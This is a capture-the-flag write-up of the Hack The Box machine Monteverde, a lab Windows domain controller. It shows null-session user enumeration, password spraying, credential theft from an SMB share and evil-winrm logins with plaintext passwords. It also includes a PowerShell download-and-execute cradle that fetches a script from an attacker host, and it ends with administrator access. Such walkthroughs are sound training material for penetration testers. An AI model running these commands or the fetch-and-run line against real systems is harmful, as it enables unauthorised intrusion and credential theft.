 ```yaml
---
description: https://app.hackthebox.com/machines/Monteverde
---
```


# 🐭 Monteverde

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's start by a quick nmap:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (5).png" alt=""><figcaption><p>TCP DNS (53) along with Kerberos (TCP 88) and LDAP (TCP 389) suggests this might be a domain controller</p></figcaption></figure>

Could not connect via SMB shares

So tried RPC on port 445:

```
rpcclient -U "" -N 10.129.69.81
querydispinfo
```

1. `rpcclient`: This is a command-line tool used to execute client-side operations on a remote system that supports RPC. It allows users to interact with services that utilize RPC for communication.
2. `-U ""`: This parameter specifies the username to use for authentication. In this case, an empty string `""` is used, which might indicate that the command is trying to connect anonymously or using a null session.
3. `-N`: This flag is used to indicate that no password should be prompted for, which typically implies anonymous authentication.
4. `10.129.69.81`: This is the IP address of the remote system to which the command is attempting to connect.
5. `querydispinfo`: This appears to be a command or operation being requested from the remote system. It could be querying display information, such as details about the available shared resources or services.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (6).png" alt=""><figcaption></figcaption></figure>

So we found the name of some of the users and their account name

a good way to go would be to check if the users use their name as passwords for their account

So let's try to put all the usernames in a word list and spray using crackmapexec

```
crackmapexec smb 10.129.69.81 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>MEGABANK.LOCAL\SABatchJobs:SABatchJobs</p></figcaption></figure>

cool we got a match&#x20;

Now let's use `smbmap` to tell me what shares there are and what I have access to in a cleaned up manner:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs
```

* `smbmap`: This is a command-line tool used to enumerate and interact with shares on SMB servers. It allows users to discover accessible shares, permissions, and other information available on SMB-enabled systems.
* `-H 10.129.69.81`: This parameter specifies the target host or IP address (`10.129.69.81`) of the SMB server that the `smbmap` tool will interact with. This is the remote system you want to analyze.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after some enumeration we see some interesting files:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs -R 'users$'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To grab it using smbclient ->

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

1. `smbclient`: This is the command-line tool used to access files and services on SMB/CIFS servers.
2. `-U SABatchJobs`: This parameter specifies the username (`SABatchJobs`) to be used for authentication when connecting to the SMB/CIFS server.
3. `//10.10.10.172/users$`: This is the Uniform Naming Convention (UNC) path to the shared resource on the server (`10.10.10.172`). The `users$` represents a hidden share named `users`. The double slashes `//` indicate the beginning of a UNC path.
4. `SABatchJobs`: This is the password corresponding to the username provided with the `-U` flag. It's used for authentication purposes.
5. `-c 'get mhope/azure.xml azure.xml'`: This part of the command specifies a subcommand to be executed after connecting to the SMB/CIFS server. In this case, it's executing the `get` command to retrieve a file named `azure.xml` from the `mhope` directory on the server's `users$` share. The file will be downloaded to the local system and saved as `azure.xml`.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or another way of doing it:

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in the XML file, there are credentials:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

since the credentials are in mhope directory, it's a high prob it's his credentials ->

You can check that with `crackmapexec`

```
crackmapexec winrm 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

1. `crackmapexec`: This is a penetration testing tool that is used for assessing the security of networks by identifying and exploiting vulnerabilities. It's specifically designed for enumerating and exploiting Windows hosts on a network.
2. `winrm`: This indicates that the operation being performed by `crackmapexec` pertains to WinRM, which is a management protocol used for remote management of Windows systems over HTTP(S). WinRM allows for remote execution of PowerShell commands and scripts, as well as other management tasks.
3. `10.129.69.81`: This is the IP address of the target system where the WinRM service is running. `crackmapexec` will attempt to connect to this system to perform enumeration or exploitation.
4. `-u mhope`: This flag specifies the username (`mhope`) to be used for authentication when connecting to the WinRM service on the target system.
5. `-p '4n0therD4y@n0th3r$'`: This flag specifies the password (`4n0therD4y@n0th3r$`) corresponding to the username provided with the `-u` flag. It's used for authentication purposes.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also get the indication that winrm works for this account so let's go:

```
evil-winrm -i 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>59f4dfa90d416cb495bd38d04f361549</p></figcaption></figure>

In the box description, we see that they talk about Azure Active Directory and there was a share "azure uploads"

When used without additional parameters, "net user mhope" displays detailed information about the specified user account, such as the account's full name, description, whether the account is active or disabled, when the account was created, and when the account's password was last set

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that mhope is part of the azure admins group

after quick enumeration we also see  that there are a lot of azure related files:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

nice blog about azure red teaming:

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

We see this :

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c" %}

on my local machine i'll put this in an "azurePentest.ps1" file:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go fetch it like that:

```
wget http://10.10.14.94:6969/azurePentest.ps1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

or another way is to download it and executing it right away:&#x20;

```
iex(new-object net.webclient).downloadstring('http://10.10.14.94:6969/shell1.ps1')
```

1. `iex`: This is the alias for the `Invoke-Expression` cmdlet in PowerShell. It's used to execute commands or scripts represented as strings.
2. `(new-object net.webclient)`: This creates a new instance of the `System.Net.WebClient` class in .NET. This class provides methods for downloading data from the internet.
3. `.downloadstring('http://10.10.14.94:6969/shell1.ps1')`: This calls the `DownloadString` method of the `WebClient` object created in the previous step. It downloads the contents of the specified URL (`http://10.10.14.94:6969/shell1.ps1`) as a string.

Combining these components, the entire command can be interpreted as follows:

1. Create a new instance of the `WebClient` class.
2. Use this `WebClient` object to download the contents of the PowerShell script (`shell1.ps1`) from the specified URL (`http://10.10.14.94:6969/shell1.ps1`).
3. Execute the downloaded script using the `Invoke-Expression` cmdlet (`iex`)

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Script kiddie type stuff, but we get some credentials. Let's hop on WinRM:

{% content-ref url="../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

```
evil-winrm -i 10.129.69.81 -u administrator -p 'd0m@in4dminyeah!'
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
